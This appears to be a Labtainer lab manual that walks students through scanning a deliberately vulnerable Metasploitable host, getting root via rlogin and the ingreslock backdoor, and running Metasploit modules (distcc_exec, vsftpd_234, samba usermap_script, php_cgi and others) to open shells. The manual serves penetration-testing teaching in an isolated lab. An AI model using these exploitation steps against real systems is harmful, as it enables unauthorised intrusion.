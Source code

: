 ![](media/b80e0eacca6dad9d42b5dc3545946591.png)

Using Metasploit
=================================

Overview
========

This Labtainer exercise explores the use of the metasploit tool which is
installed on a Kali Linux system (attacker) and is meant to learn simple
penetration skills on a purposely vulnerable metasploitable host (victim).

Note: the attacker computer is configured to have IP address 192.168.1.3 while
the victim computer is 192.168.1.2

Lab Environment
===============

Once you have logged into your range account and accessed your Labtainer-VM,
open a terminal window.

Navigate to the “labtainer-student” directory and start the lab using the
command:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
$  labtainer metaploit
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

-   The resulting virtual terminal is connected to the attacker computer.
-   Links to this lab manual will be displayed if you wish to view the prompt
    from within your VM


Lab Tasks
=====

Verify connectivity between attacker and victim
=====

- A simple ping from the attacker system will be sufficient.

```
ping 192.168.1.2
```

Get a list of vulnerable services on the victim
=====

- An 'nmap' scan of the victim will be sufficient.

```
nmap -p0-65535 192.168.1.2
```

Walk-Thru for Vulnerably configured rlogin service (port 513)
=====

- Remote login to the victim (with root privilege)
```
rlogin -l root 192.168.1.2
```

- Display a 'root' file
```
cat /root/filetoview.txt
```

Walk-Thru for Vulnerable ingreslock service (port 1524)
=====

- Use telnet to access ingreslock service and obtain root privilege
```
telnet 192.168.1.2 1524
```

- Display root file as above

Walk-Thru for Vulnerable distccd service (port 3632)
=====

- Start Metasploit console
```
sudo msfconsole
```

Note you will see a warning about a missing database, you can ignore that.

- Search for distccd exploit:
```
search distccd
```

- Use the exploit:
```
use exploit/unix/misc/distcc_exec
```

- View options related to exploit:
```
options
```

- Set the 'RHOST' option:
```
set RHOST 192.168.1.2
```

- Run the exploit:
```
exploit
```

Note: when the exploit has succeeded, no prompt is shown but a shell is created.

- Display the root file as above.

Your Turn! Exploit the Vulnerable IRC daemon (port 6667)
=====

- Search for unreal_ircd exploit.

- Use the exploit.

- View and set options as necessary (RHOST option) run the exploit and display
root file.

Exploit the Vulnerable VSFtpd service (port 21)
=====

- Search for vsftpd_234.

- Use the exploit.

- View and set options as necessary (RHOST option), run the exploit and display
root file.

Exploit the Vulnerable Samba service (port 139)
=====

- Search for samba usermap_script.

- Use the exploit.

- View and set options as necessary (RHOST option), run the exploit and display
root file.

Exploit the Vulnerable HTTP (php) service (port 80)
=====

- Search for php_cgi.

- Use the exploit.

- View and set options as necessary (RHOST option) run the exploit.

Note: when the exploit is succeeded a 'meterpreter' prompt is shown.

- From meterpreter prompt, drop to a shell:

```
shell
```

- Display the root file.


Expolit the Vulnerable Postgres service (port 5432)
=====

- Search for postgres_payload.

- Use the exploit.

- View and set options as necessary (RHOST option).

- run the exploit.

Note: when the exploit is succeeded a 'meterpreter' prompt is shown.


- From meterpreter prompt, drop to a shell.

- Display root file.

Stop the Labtainer (Bonus lab)
=====

When the lab is completed, or you'd like to stop working for a while, run

```
$ stoplab
```

You can always restart the Labtainer to continue your work. 

